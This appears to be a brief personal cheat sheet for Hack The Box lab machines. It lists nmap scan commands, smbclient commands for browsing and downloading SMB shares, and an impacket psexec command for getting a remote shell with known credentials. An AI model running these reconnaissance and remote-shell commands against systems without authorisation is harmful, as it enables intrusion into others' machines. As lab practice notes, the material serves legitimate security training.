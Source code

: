 # HTB_cheatsheet

## Recon

### nmap

Scan for open ports: nmap <IP> -p- -T4
  
Scan for services and their versions: nmap <IP> -p<PORT>,<PORT2>,<...> -T4 -A
  
  



### SMB

try to list available shares on smb: `smbclient -L \\\\<IP>\\`
connect to smb-share: `smbclient \\\\<IP>\\<SHARE>`
download file from share: `get \<FILE>`

try to find out version of smb-service: use metasploit module ...smb_version TODO


## Exploitation

### SMB

Try to get a reverse shell for a given user and password via psexec (impacket):
`psexec.py '\<USER>:\<PW>@\<IP>'`

